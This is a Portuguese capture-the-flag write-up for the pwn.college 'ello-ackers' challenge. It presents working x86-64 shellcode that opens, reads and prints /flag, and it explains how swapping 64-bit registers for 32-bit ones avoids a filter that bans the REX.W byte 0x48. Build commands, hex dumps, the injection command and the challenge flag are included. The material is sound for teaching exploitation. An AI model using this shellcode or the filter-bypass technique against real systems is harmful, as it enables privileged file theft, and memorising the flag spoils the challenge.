





# pwn.college — ello-ackers (Shellcode Writing)
### Program Security · Shellcode Writing · No-H-Bytes Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing  
> **Técnicas:** Shellcode injection · REX.W prefix bypass · 32-bit register substitution · Direct syscall shellcode · Hex dump analysis · Objdump inspection

---

## Descrição do Desafio

O desafio `ello-ackers` é parte da trilha de **Shellcode Writing** do pwn.college. O binário lê até `0x1000` bytes da `stdin`, aplica um **filtro** sobre os bytes recebidos e, caso passem, os executa diretamente como código de máquina — um cenário clássico de **code injection**.

A restrição deste desafio é que o shellcode **não pode conter o byte `0x48`**. Além disso, o ambiente é endurecido:

- Todas as variáveis de ambiente e argumentos são sanitizados
- Todos os file descriptors maiores que 2 são fechados
- O **EUID do processo muda**, tornando shellcodes interativos (como `/bin/sh`) inúteis — não há como abrir `/flag` a partir de um shell filho sem os privilégios corretos

O objetivo é ler o conteúdo do arquivo `/flag` e imprimi-lo na `stdout`.

---

## Reconhecimento Inicial

Ao executar o binário pela primeira vez, passei uma sequência de `A`s para observar o comportamento do filtro:

```bash
/challenge/ello-ackers
```



O binário revelou imediatamente a restrição:

> **"This challenge requires that your shellcode have no H bytes!"**

O nome do desafio já era uma dica direta: **"ello-ackers"** é **"H-ello-ackers"** com o "H" removido. Isso indicava uma restrição sobre o byte `0x48` — que é o código ASCII de "H", mas que também tem um papel fundamental como prefixo de instruções na arquitetura x86-64, como ficaria evidente a seguir.

---

## Primeiro Shellcode — Abordagem Clássica de 64 bits

Com base no reconhecimento, escrevi um shellcode inicial (`shellcode1.s`) implementando a sequência clássica de syscalls para ler e imprimir um arquivo:

1. `open("/flag", O_RDONLY)` — abre o arquivo e retorna um file descriptor em `rax`
2. `read(fd, buf, 0x100)` — lê até 256 bytes do arquivo para um buffer
3. `write(1, buf, 0x100)` — escreve o buffer para `stdout`
4. `exit(0)` — encerra o processo

> **Por que não usar `/bin/sh`?**  
> O binário altera o **EUID** do processo antes de executar o shellcode. Um shell filho spawnado herdaria o EUID original, sem permissão para abrir `/flag`. A abordagem correta é um shellcode direto: open → read → write → exit, tudo via syscall, aproveitando o EUID elevado do processo pai.



```asm
.globl _start
.intel_syntax noprefix

_start:
    # open("/flag", O_RDONLY) → retorna fd em rax
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    mov rdx, 0
    syscall

    # salva o fd em rdi para o read
    mov rdi, rax

    # read(fd, buf, 0x100) → lê o conteúdo do arquivo
    mov rax, 0
    lea rsi, [rip + results]
    mov rdx, 0x100
    syscall

    # write(stdout, buf, 0x100) → imprime na tela
    mov rax, 1
    mov rdi, 1
    lea rsi, [rip + results]
    mov rdx, 0x100
    syscall

    # exit(0)
    mov rax, 60
    mov rdi, 0
    syscall

flag:
    .string "/flag"
results:
    .space 100
```

Para compilar e extrair os bytes raw do shellcode:

```bash
gcc -nostdlib -static shellcode1.s -o shellcode1.elf
objcopy --dump-section .text=shellcode1.raw shellcode1.elf
```

Ao tentar executar:

```bash
cat shellcode1.raw | /challenge/ello-ackers
```

A resposta foi imediata:

> **"Failed filter at byte 0!"**

O filtro bloqueou já no primeiro byte. Era hora de investigar os bytes gerados.

---

## Identificando o Problema com `hd` e `objdump`

Usei `hd` (hex dump) para inspecionar os bytes exatos do shellcode compilado:

```bash
hd shellcode1.raw
```



O dump revelou o problema nas primeiras linhas:

```
00000000  48 c7 c0 02 00 00 00  48 8d 3d 58 00 00 00  48 c7  |H.....H.=X...H.|
00000010  c6 00 00 00 00 0f 05  48 89 c7 48 c7 c0 00  00 00  |.......H.H.....|
```

O byte `0x48` aparece no início de praticamente toda instrução. Para ter uma visão ainda mais clara de quais instruções geravam esse byte, usei `objdump` para correlacionar bytes e mnemonics:

```bash
objdump -d shellcode1.elf
```

Isso confirmou diretamente: **toda instrução que usava registradores de 64 bits (`rax`, `rdi`, `rsi`, `rdx`) começava com `0x48`**.

---

## Entendendo o Byte 0x48 — O Prefixo REX.W

Para entender a causa raiz, é necessário conhecer um detalhe fundamental da arquitetura x86-64.

### O que é o Prefixo REX?

A arquitetura x86-64 introduziu os **prefixos REX** — bytes de um único octeto que precedem as instruções e estendem suas capacidades para o modo de 64 bits. O formato do byte REX é:

```
0100 W R X B
│    │ │ │ └─ Extensão do campo ModRM.rm, SIB.base ou Opcode.reg
│    │ │ └─── Extensão do campo SIB.index
│    │ └───── Extensão do campo ModRM.reg
│    └─────── W=1: operação de 64 bits (REX.W)
└──────────── Nibble fixo: 0100
```

Quando o bit **W** é 1 e os bits R, X, B são todos 0, o byte REX fica:

```
0100 1 0 0 0 = 0x48
```

Esse é o **REX.W** — emitido automaticamente pelo assembler antes de qualquer instrução que opera em 64 bits. Não há como evitá-lo enquanto se usar registradores como `rax`, `rdi`, `rsi`, `rdx`.

### Exemplos práticos

| Instrução Assembly | Bytes Gerados | Observação |
|---|---|---|
| `mov rax, 2` | `48 c7 c0 02 00 00 00` | `0x48` = REX.W obrigatório |
| `lea rdi, [rip+X]` | `48 8d 3d XX XX XX XX` | `0x48` = REX.W obrigatório |
| `mov eax, 2` | `b8 02 00 00 00` | Sem REX — operação 32 bits |
| `lea edi, [eip+X]` | `67 8d 3d XX XX XX XX` | Prefixo `0x67` (addr size), sem `0x48` |

A conclusão é direta: **substituir todos os registradores de 64 bits pelos equivalentes de 32 bits elimina completamente o byte `0x48`**.

---

## A Solução — Shellcode com Registradores de 32 bits

A correção foi reescrever o shellcode substituindo cada registrador de 64 bits pelo seu equivalente de 32 bits, e trocando o endereçamento via `rip` por `eip`:

| Registrador 64 bits | Substituto 32 bits |
|---|---|
| `rax` | `eax` |
| `rdi` | `edi` |
| `rsi` | `esi` |
| `rdx` | `edx` |
| `[rip + label]` | `[eip + label]` |

> **As syscalls continuam funcionando.**  
> O kernel Linux lê apenas os bits relevantes de cada registrador ao processar uma syscall. Usar `eax` em vez de `rax` para o número da syscall, e `edi`/`esi`/`edx` para os argumentos, é completamente válido — o resultado é idêntico.

O shellcode corrigido (`shellcode8.s`):



```asm
.globl _start
.intel_syntax noprefix

_start:
    # open("/flag", O_RDONLY) → retorna fd em eax
    mov eax, 2
    lea edi, [eip + flag]
    mov esi, 0
    mov edx, 0
    syscall

    # salva o fd em edi para o read
    mov edi, eax

    # read(fd, buf, 0x100) → lê o conteúdo do arquivo
    mov eax, 0
    lea esi, [eip + results]
    mov edx, 0x100
    syscall

    # write(stdout, buf, 0x100) → imprime na tela
    mov eax, 1
    mov edi, 1
    lea esi, [eip + results]
    mov edx, 0x100
    syscall

    # exit(0)
    mov eax, 60
    mov edi, 0
    syscall

flag:
    .string "/flag"
results:
    .space 100
```

Compilando e extraindo:

```bash
gcc -nostdlib -static shellcode8.s -o shellcode8.elf
objcopy --dump-section .text=shellcode8.raw shellcode8.elf
```

---

## Execução e Resultado Final

```bash
cat shellcode8.raw | /challenge/ello-ackers
```



O binário exibiu o shellcode desmontado — todas as instruções sem nenhum `0x48` — e executou com sucesso:

```
mov eax, 2
lea edi, [eip + 0x45]
mov esi, 0
mov edx, 0
syscall
mov edi, eax
mov eax, 0
lea esi, [eip + 0x31]
mov edx, 0x100
syscall
mov eax, 1
mov edi, 1
lea esi, [eip + 0x19]
mov edx, 0x100
syscall
mov eax, 0x3c
mov edi, 0
syscall
```

Flag obtida:

```
pwn.college{kPvLTLvjofnWFIrTus1HXaPBOxJ.dBjMywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. Execução inicial → filtro revela restrição: "no H bytes" (byte 0x48)
2. shellcode1.s → registradores de 64 bits → compilado e enviado ao binário
3. Falha no byte 0 → hd shellcode1.raw → 0x48 presente em toda instrução
4. objdump confirma: REX.W (0x48) é emitido por rax, rdi, rsi, rdx
5. shellcode8.s → substituição por eax, edi, esi, edx, eip → zero bytes 0x48
6. cat shellcode8.raw | /challenge/ello-ackers → filtro passa → flag impressa
```

---

## Comparação entre shellcode1 e shellcode8

| | shellcode1 | shellcode8 |
|---|---|---|
| Registradores usados | 64 bits (`rax`, `rdi`, `rsi`, `rdx`) | 32 bits (`eax`, `edi`, `esi`, `edx`) |
| Prefixo REX.W gerado | ✅ Sim — `0x48` em toda instrução | ❌ Não — nenhum `0x48` |
| Passa no filtro | ❌ Falha no byte 0 | ✅ Passa |
| Lógica das syscalls | Idêntica | Idêntica |
| Flag obtida | ❌ | ✅ |

---

**Técnicas:** Shellcode injection · REX.W prefix bypass · 32-bit register substitution · Direct syscall shellcode · Hex dump analysis (`hd`) · Disassembly inspection (`objdump`)
